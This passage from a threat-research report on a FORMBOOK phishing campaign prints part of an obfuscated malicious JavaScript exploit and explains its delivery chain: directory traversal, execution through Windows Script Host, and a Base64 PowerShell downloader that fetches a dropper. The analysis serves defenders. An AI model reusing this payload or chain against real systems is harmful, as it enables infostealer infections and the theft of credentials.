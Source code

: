 ```
'WReLW5ddJGiJWRhcRMuYW40LW4v9xSkJWRNcObFdLSkEW5hcMe1kW4JcHL84W7WgWPtcNt4eW4NcP8oZy8kN',
'lNDZzJOUlI8UlI9eB3DUBg9HzhmVuhjVzMLSzs5Yyxi/lNDZzG','ndaWmtu5BvbZqxHH','Bg9JyxrPB24',
'ex3cTSkNW5z+w2RcKGhdLs/dNbBdImoknSk1FwVdQL/cVSkWWRC9WPldO3/dRLv5lt5lW4XFWRVcGWxcNsiX','nZa3mZKWnNP1zffirq',
'bxy1yvlcHujyqSkly2ldHvDrW5vJW7HQW5mZimkKWPJcQJClD0j3WO5SW6KTqmozaWOzACoc','mtKXmZq5mLbREgPOqW','W73dMrjjW53cQaBcVq',
...truncated…
ActiveXObject(j(0x144))[k(0x13c,'k0X5')][j(0x14c)]=k(0x14d,'[Otp'),new ActiveXObject('htmlfile')[j(0x146)]['location']=j(0x14a),new ActiveXObject('htmlfile')[k(0x148,
'MCjf')][k(0x138,'kZYE')]=j(0x147),new ActiveXObject(j(0x144))[j(0x146)][k(0x142,'Lz1J')]=k(0x14f,'BiKg'),new ActiveXObject(k(0x145,'h]@1'))[j(0x146)][j(0x14c)]=k(0x13a,'!v$V'));</script>
```

Deobfuscating the JavaScript using the same debugger as before, we can see several ActiveXObjects. This time, however, there are far fewer and the execution is more prescripted, eliminating useless calls. This shows a refinement from before. This newer code also uses a .wsf extension instead of the previous .cpl. This allows the exploit to use the Windows Scripting Host to execute code. This is the same directory traversal technique we observed in the Testing phase. However, this time the JavaScript is looking for the Profile.rar file (whereas in the Testing phase, it was looking for IECache.inf) and attempting to execute the PowerShell script, which was prepended in Profile.rar as a Windows Script File (.wsf).

![Deobfuscated JavaScript showing directory search for the original RAR file](/assets/images/formbook-adopts-cab-less-approach/deobfuscated-javascript-showing-directory-search-for-the-original-rar-file.jpg)

#### Dropper

As we illustrated above, Profile.rar has a prepended Base64 encoded PowerShell command which downloads abb01.exe. The JavaScript from Profile.html attempts to execute this PowerShell code within Profile.rar as a Windows Script File.

abb01.exe is a dropper that when dynamically executed, drops another PE file, yxojzzvhi0.exe in our example.

#### FORMBOOK Binary

yxojzzvhi0.exe was scanned with Elastic YARA rules and identified to be a variant of [FORMBOOK](https://malpedia.caad.fkie.fraunhofer.de/details/win.formbook), based on unique byte sequences.

FORMBOOK, also known as XLOADER, is an information stealer that includes keyloggers, clipboard copiers, and form grabber components to collect and exfiltrate sensitive information. This malware has been [offered as-a-service](https://www.fortinet.com/blog/threat-research/deep-analysis-new-formbook-variant-delivered-phishing-campaign-part-I) for over five years and remains a successful tool for stealing information.

### Generic phase

On October 28 and November 8, 2021, we observed additional sightings but used a generic phishing attachment tactic to load FORMBOOK. Additionally, we were able to collect some information from the email header that we’ll discuss in the Campaign Analysis section.

![Generic phase lure email](/assets/images/formbook-adopts-cab-less-approach/generic-phase-lure-email.jpg)

These sightings all have two RAR attachments. One of the attachments has a .rar file extension and the other has either a .gz or .7z extension. We’ll explore one of the sightings below.

